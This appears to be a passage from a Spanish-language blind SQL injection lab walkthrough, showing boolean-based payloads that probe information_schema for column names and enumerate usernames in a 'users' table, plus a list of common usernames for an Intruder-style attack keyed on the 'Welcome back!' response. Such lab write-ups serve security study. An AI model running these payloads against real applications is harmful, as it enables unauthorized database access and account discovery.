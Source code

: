 ```list
permissions
is_admin
is_active
```

```sql
' AND EXISTS (SELECT 1 FROM information_schema.columns WHERE table_name = 'users' AND column_name = 'PAYLOAD')--
```

![columnas]({{site.url}}/images/SQLi/sqli-11/columnas.png)

Filtramos por el mensaje de `Welcome back!`

![columnas]({{site.url}}/images/SQLi/sqli-11/Filtro Columna.png)

Columnas filtradas que tienen el mensaje de `Welcome back!`

![columnas]({{site.url}}/images/SQLi/sqli-11/columnas filtradas.png)

## Averiguar nombre de usuarios en la BD

Ya que tenemos el nombre de la tabla y sus campos vamos a listar el nombre de los usuarios

```sql
' AND EXISTS (SELECT 1 FROM users WHERE username = 'PAYLOAD')--
```

 Lista de nombre de usuarios mas comunes

 ```
admin
administrator
root
user
guest
test
superuser
default
manager
support
moderator
developer
operator
owner
sales
marketing
finance
hr
accounting
itadmin
 ```

 Realizamos el ataque de intruder
